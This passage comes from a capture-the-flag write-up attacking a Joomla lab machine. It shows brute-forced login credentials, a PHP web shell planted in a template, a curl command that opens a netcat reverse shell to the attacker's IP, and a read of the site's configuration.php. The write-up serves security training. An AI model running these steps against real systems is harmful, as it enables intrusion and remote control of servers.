 From this, write a script to bruteforce the login page credentials (see joomla-login.py).
```bash
┌──(kali㉿kali)-[]-[~/Desktop]
└─$ ./login.py  
First request returned: 200
[+] Attempts: 0 - Current: you
[+] Attempts: 10 - Current: and
[+] Attempts: 20 - Current: You
[+] Attempts: 30 - Current: Glasgow
[+] Attempts: 40 - Current: here
[+] Attempts: 50 - Current: Details
[+] Attempts: 60 - Current: they
[+] Attempts: 70 - Current: not
[+] Attempts: 80 - Current: over
[+] Attempts: 90 - Current: spread
[+] Creds found: joomla:Gotham
```
Creds are recovered as `joomla:Gotham`

### 4. Login to Joomla
The Joomla administration panel can be logged into, and it is seen the "joomla" user is the Super User. This means we can modify a template to give PHP code execution. Injecting a basic `echo shell_exec('id');` into the index.php code displays `uid=33(www-data) gid=33(www-data) groups=33(www-data)` at the top of the joomla page. Change the code to `echo shell_exec($_REQUEST['cmd']);` and now it is possible to execute any command on the system through a parameter.
```bash
┌──(kali㉿kali)-[]-[~/Desktop]
└─$ curl 'http://192.168.34.152/joomla/index.php?cmd=whoami' -s 2>/dev/null | head -n 1
www-data
```

### 5. Get a shell
Curl a request to open a reverse shell using Netcat.
```bash
┌──(kali㉿kali)-[]-[~/Desktop]
└─$ curl 'http://192.168.34.152/joomla/index.php?cmd=nc%20-e%20/bin/bash%20192.168.34.138%209999' -s 2>/dev/null | head -n 1
```

Get the shell.
```bash
┌──(kali㉿kali)-[]-[~/Desktop]
└─$ nc -lvnp 9999           
listening on [any] 9999 ...
connect to [192.168.34.138] from (UNKNOWN) [192.168.34.152] 60886
python -c "import pty;pty.spawn('/bin/bash')"
www-data@glasgowsmile:/var/www/html/joomla$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### 6. Enumerate from user
Check out the Joomla configuration:
```bash
www-data@glasgowsmile:/var/www/html/joomla$ cat configuration.php 
<?php
class JConfig {
        public $offline = '0';
        public $offline_message = 'This site is down for maintenance.<br />Please check back again soon.';
        public $display_offline_message = '1';
        public $offline_image = '';
        public $sitename = 'Joker';
        public $editor = 'tinymce';
        public $captcha = '0';
        public $list_limit = '20';
```